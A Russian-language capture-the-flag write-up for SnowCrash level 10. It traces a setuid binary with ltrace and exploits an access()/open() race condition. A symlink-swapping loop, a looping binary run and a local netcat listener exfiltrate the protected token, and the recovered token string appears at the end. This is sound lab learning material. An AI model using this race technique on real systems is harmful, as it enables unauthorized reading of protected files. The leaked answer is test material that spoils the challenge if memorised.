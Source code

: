 на левеле 10 у нас имеется
dr-xr-x---+ 1 level10 level10   140 Mar  6  2016 ./
d--x--x--x  1 root    users     340 Aug 30  2015 ../
-r-x------  1 level10 level10   220 Apr  3  2012 .bash_logout*
-r-x------  1 level10 level10  3518 Aug 30  2015 .bashrc*
-rwsr-sr-x+ 1 flag10  level10 10817 Mar  5  2016 level10*
-r-x------  1 level10 level10   675 Apr  3  2012 .profile*
-rw-------  1 flag10  flag10     26 Mar  5  2016 token

прокидываем по приципы как из левела 8 сначала балванку чтобы посмотреть ltrace
echo "lol" > /tmp/level10/lol

level10@SnowCrash:~$ ltrace ./level10 /tmp/level10/lol
__libc_start_main(0x80486d4, 2, 0xbffff7c4, 0x8048970, 0x80489e0 <unfinished ...>
printf("%s file host\n\tsends file to ho"..., "./level10"./level10 file host
        sends file to host if you have access to it
) = 65
exit(1 <unfinished ...>
+++ exited (status 1) +++

выдает ошибку поскольку должен приниматься 3й аргумент. вариантов особо не много используем локалхост

level10@SnowCrash:~$ ltrace ./level10 /tmp/level10/lol 127.0.0.1
__libc_start_main(0x80486d4, 3, 0xbffff7c4, 0x8048970, 0x80489e0 <unfinished ...>
access("/tmp/level10/lol", 4)                              = 0
printf("Connecting to %s:6969 .. ", "127.0.0.1")           = 32
fflush(0xb7fd1a20Connecting to 127.0.0.1:6969 .. )                                         = 0
socket(2, 1, 0)                                            = 3
inet_addr("127.0.0.1")                                     = 0x0100007f
htons(6969, 1, 0, 0, 0)                                    = 14619
connect(3, 0xbffff70c, 16, 0, 0)                           = -1
printf("Unable to connect to host %s\n", "127.0.0.1"Unable to connect to host 127.0.0.1
)      = 36
exit(1 <unfinished ...>
+++ exited (status 1) +++

указывается порт 6969

пробуем подключиться к данному порту
nc -l 6969

подключение есть
level10@SnowCrash:~$ ltrace ./level10 /tmp/level10/lol 127.0.0.1
__libc_start_main(0x80486d4, 3, 0xbffff7c4, 0x8048970, 0x80489e0 <unfinished ...>
access("/tmp/level10/lol", 4)                              = 0
printf("Connecting to %s:6969 .. ", "127.0.0.1")           = 32
fflush(0xb7fd1a20Connecting to 127.0.0.1:6969 .. )                                         = 0
socket(2, 1, 0)                                            = 3
inet_addr("127.0.0.1")                                     = 0x0100007f
htons(6969, 1, 0, 0, 0)                                    = 14619
connect(3, 0xbffff70c, 16, 0, 0)                           = 0
write(3, ".*( )*.\n", 8)                                   = 8
printf("Connected!\nSending file .. "Connected!
)                     = 27
fflush(0xb7fd1a20Sending file .. )                                         = 0
open("/tmp/level10/lol", 0, 010)                           = 4
read(4, "lol\n", 4096)                                     = 4
write(3, "lol\n", 4)                                       = 4
puts("wrote file!"wrote file!
)                                        = 12
+++ exited (status 12) +++

на сервере отобразилось 
level10@SnowCrash:~$ nc -l 6969
.*( )*.
lol

чтобы взломать токен на основе прав доступа используем уязвимость функции access
man access
Warning:  Using  access() to check if a user is authorized to, for example, open a file
       before actually doing so using open(2) creates a security hole, because the user  might
       exploit the short time interval between checking and opening the file to manipulate it.
       For this reason, the use of this system call should be avoided.  (In the  example  just
       described,  a  safer alternative would be to temporarily switch the process's effective
       user ID to the real ID and then call open(2).)

чтобы получить токен нам нужно перегрузить функцию access пока она будет перегружена появится короткий интервал времени между проверкой и открытием файла для манипулирования им.

используем nc -lk 6969 с флагами -lk
-l: Это означает, что nc будет работать в режиме прослушивания (listen), т.е. ожидает входящие соединения на указанном порту.
-k: Этот параметр говорит nc продолжать слушать и после того, как установлено одно соединение.

наша задача запустить 2 процесса с нашим бинарников, один на фейк токен, второй на реальный.

echo "asd" > /tmp/level10/faketoken

подмена ключа
while true; do ln -fs /home/user/level10/token /tmp/level10/lol; ln -sf /tmp/level10/faketoken /tmp/level10/lol; done

памп бинарника
while true; do /home/user/level10/level10 /tmp/level10/lol 127.0.0.1; done

как это работает
Ты пытаешься эксплуатировать гонку условий (race condition) при доступе к файлу, чтобы бинарный файл /home/user/level10/level10 отправил вместо поддельного токена настоящий, который находится в /home/user/level10/token.
1. Как работает бинарный файл level10
Из ltrace видно, что программа:
Проверяет доступ к переданному файлу (access("/tmp/level10/faketoken", 4))
Выводит сообщение о подключении
Создает TCP-сокет и подключается к 127.0.0.1:6969
Читает данные из переданного файла (read(4, "asd\n", 4096))
Отправляет прочитанное содержимое в сокет (write(3, "asd\n", 4))
Завершается.

То есть программа берет файл, читает его и отправляет содержимое по сети.

Создаем файл с поддельным содержимым.
цикл бесконечно меняет символическую ссылку /tmp/level10/lol:
В один момент /tmp/level10/lol указывает на /home/user/level10/token (который содержит настоящий токен)
В следующий момент /tmp/level10/lol указывает на /tmp/level10/faketoken
Задача — поймать момент, когда программа level10 делает open("/tmp/level10/lol", 0, 010) (открывает файл), чтобы в этот момент lol указывал на token.

проще говоря если запустить ссылку с токеном мы все равно получим реджект. когда мы создаем обычный файл с текстом, то он его читает. задача цикла поймать аксесс так, чтобы когда он читал лол как фейктокен, в него прилетел бы реальный токен


Из ltrace видно:
access("/tmp/level10/faketoken", 4)   = 0
open("/tmp/level10/faketoken", 0, 010) = 4

access() проверяет, есть ли у пользователя чтение (R_OK = 4) на файл
open() открывает этот же файл
Но между этими вызовами есть зазор во времени. Именно сюда мы вставляем атаку.



woupa2yuojeeaaed06riuj63c